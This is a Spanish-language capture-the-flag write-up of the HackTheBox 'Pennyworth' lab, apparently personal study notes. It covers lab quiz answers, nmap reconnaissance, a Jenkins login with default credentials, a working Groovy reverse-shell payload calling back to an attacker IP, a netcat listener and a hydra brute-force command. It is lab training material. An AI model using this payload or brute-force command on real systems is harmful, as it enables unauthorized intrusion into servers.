 Aca vemos [[groovy]]

----

1)¿Qué significan las siglas CVE?
	Common Vulnerabilities and Exposures
	Es un identificador único asignado a una vulnerabilidad de seguridad específica en un software o hardware

2)¿Qué significan las tres letras de CIA, en referencia a la tríada de la CIA en ciberseguridad?
	Confidentiality, Integrity, Availability
	La tríada CIA en ciberseguridad representa **Confidencialidad, Integridad y Disponibilidad**. Son los tres pilares fundamentales para proteger la información: evitar accesos no autorizados, mantener los datos correctos y asegurarse de que estén siempre accesibles.

3)¿Cuál es la versión del servicio que se ejecuta en el puerto 8080?
	Jetty 9.4.39.v20210325

4)¿Qué versión de Jenkins se está ejecutando en el objetivo?
	Jenkins[2.289.1]

5)¿Qué tipo de script se acepta como entrada en la Consola de Script de Jenkins?
	groovy
	Acepta groovy scripts

6)¿A qué equivaldría la variable «String cmd» del fragmento de Groovy Script si la máquina virtual de destino estuviera ejecutando Windows?
	cmd.exe
	Ejemplo: "cmd.exe /c whoami"
- `cmd.exe` → Llama al intérprete de comandos de Windows.
- `/c` → Le dice a `cmd` que ejecute el comando que sigue y luego se cierre.
- `whoami` → El comando que queremos correr (devuelve el usuario actual).

7)¿Cuál es un comando diferente a «ip a» que podríamos usar para mostrar la información de nuestras interfaces de red en Linux?
	ifconfig

8)¿Qué switch debemos utilizar con netcat para que utilice el modo de transporte UDP?
	-u
	Aparece en el panel de ayuda de netcat `nc -h`

9)¿Cuál es el término utilizado para describir cómo hacer que un host de destino inicie una conexión de vuelta al host atacante?
	reverse shell

-----
# [[Reconocimiento de OS(Sistema operativo) y puertos abiertos con NMAP]]

```shell
ping -c 1 10.129.255.235
nmap -p- --open --min-rate 5000 -vvv -sS -n -Pn 10.129.255.235 -oG allports
nmap -sCV -p8080 10.129.255.235 -oN target
```

![[Pennyworth1.png]]

![[Pennyworth2.png]]

Por el ttl sabemos que es una maquina linux
*Puertos:*
`8080` Corre un servicio http con el servicio jetty. El archivo robots, y server-header no nos dan ningun informacion relevante

-------

# [[Whatweb-wappalyzer]]

```shell
whatweb http://10.129.255.235:8080
```

![[Pennyworth3.png]]
La unica informacion relevante es lo de jetty 9.4.39 que vimos tambien en nmap

----

# Intrusion al panel de logeo

Entramos a la pagina y vemos este panel de logeo
![[Pennyworth4.png]]
Despues de intentar los usuarios y contraseñas mas comunes, logramos dar con 
```
Usuario: root
Contraseña: password
```
Intente hacerlo con hydra y la verdad no pude

Ya estamos adentro
![[Pennyworth5.png]]

---------
# [[Reverse shell]]
Ahora vamos a ir a la parte de consola y vamos a poner el payload que sacamos de este [articulo](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#powershell)
![[Pennyworth7.png]]
#### Payload
```groovy
String host="10.10.16.16";
int port=443;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```
Mientras estamos en escucha con [[nc -nlvp 443]], y no se le dan importancia a los errores de la consola de groovy por que igualemnte no tira la revershell, una vez dentro ya podemos catear la flag

![[Pennyworth6.png]]





--------
# Notas
Intente correr hydra pero la verdad no me dio resultado, asi que termine mirando el writeup para la parte del login panel

```
hydra -L /usr/share/SecLists/Usernames/top-usernames-shortlist.txt -P /usr/share/SecLists/Passwords/Common-Credentials/10k-most-common.txt -s 8080 10.129.255.235 http-post-form "/j_spring_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in:Invalid username or password" -t 40
```
# Creditos
Writeup Oficial HackTheBox


